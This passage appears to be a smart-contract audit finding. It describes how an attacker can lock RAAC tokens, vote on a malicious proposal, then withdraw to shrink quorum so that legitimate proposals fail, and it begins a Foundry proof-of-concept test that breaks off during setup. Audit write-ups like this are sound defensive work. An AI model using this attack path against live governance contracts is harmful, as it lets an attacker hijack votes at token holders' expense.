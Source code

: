 ### Attack Path
Attacker locks significant tokens (e.g., 500,000 RAAC) to gain voting power

Attacker creates and votes on their malicious proposal

After voting but before proposal finalization:

Attacker waits for lock period to end

Withdraws their tokens

This action significantly reduces total voting power

Consequently lowers quorum requirements for all active proposals

The reduced quorum makes legitimate proposals fail while the attacker's proposal (which already has votes) succeeds.

Proof of Concept:

```solidity 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;
​
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../../../../../contracts/core/governance/proposals/Governance.sol";
import "../../../../../contracts/core/governance/proposals/TimelockController.sol";
import "../../../../../contracts/interfaces/core/governance/proposals/IGovernance.sol";
import "../../../../../contracts/interfaces/core/tokens/IveRAACToken.sol";
import "../../../../../contracts/core/tokens/veRAACToken.sol";
​
contract MockRAACToken is ERC20 {
    constructor() ERC20("RAAC", "RAAC") {
        _mint(msg.sender, 10_000_000e18);
    }
}
​
contract GovernanceTest is Test {
    Governance public governance;
    TimelockController public timelock;
    veRAACToken public veToken;
    MockRAACToken public raacToken;
​
    address public admin = address(this);
    address public attacker = makeAddr("attacker");
    address[] public attackerAccounts;
    uint256 constant NUM_ACCOUNTS = 5;
​
    function setUp() public {
        raacToken = new MockRAACToken();
        veToken = new veRAACToken(address(raacToken));
        
        address[] memory proposers = new address[](1);
        address[] memory executors = new address[](1);
        proposers[0] = admin;
        executors[0] = admin;
        
        timelock = new TimelockController(2 days, proposers, executors, admin);
        governance = new Governance(address(veToken), address(timelock));
​
        timelock.grantRole(timelock.PROPOSER_ROLE(), address(governance));
        timelock.grantRole(timelock.EXECUTOR_ROLE(), address(governance));
​
        // Create multiple attacker accounts
        for(uint i = 0; i < NUM_ACCOUNTS; i++) {
            attackerAccounts.push(makeAddr(string.concat("attacker", vm.toString(i))));
```